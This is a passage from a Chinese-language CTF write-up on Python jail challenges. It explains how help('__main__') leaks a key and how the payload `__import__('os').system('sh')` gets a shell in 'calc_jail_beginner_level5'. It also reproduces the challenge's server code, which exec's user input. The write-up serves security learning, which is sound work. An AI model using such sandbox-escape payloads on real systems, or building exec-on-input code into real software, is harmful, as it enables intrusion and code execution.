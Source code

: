 payload长度受限，只能用help()
但这道题的help()做了点改动，不能RCE

注意到help的前言

> Enter the name of any module, keyword, or topic to get help on writing Python programs and using Python modules. To quit this help utility and return to the interpreter, just type "quit".
>
> To get a list of available modules, keywords, symbols, or topics, type "modules", "keywords", "symbols", or "topics". Each module also comes with a one-line summary of what it does; to list the modules whose name or summary contain a given string such as "spam", type "modules spam".

如果输入`__main__`，就能得到当前模块的帮助，当然包括全局变量，拿到key

由于脚本文件名字是叫`server.py`，所以我们也可以输入模块名`server`来得到模块信息

95c720690c2c83f0982ffba63ff87338

# Week2

#### 1. calc_jail_beginner_level5

没有给远程代码了

![image-20221115211529984](../.gitbook/assets/image-20221115211529984.png)

直接试试`__import__('os').system('sh')`，居然直接拿到shell了，顺便抠一下源码

```py
# server.py
import load_flag

flag = load_flag.get_flag()

def main():
    repl()


def repl():
    my_global_dict = dict()
    my_global_dict['my_flag'] = flag
    input_code = input("> ")
    complie_code = compile(input_code, '<string>', 'single')
    exec(complie_code, my_global_dict)

if __name__ == '__main__':
    main()
```
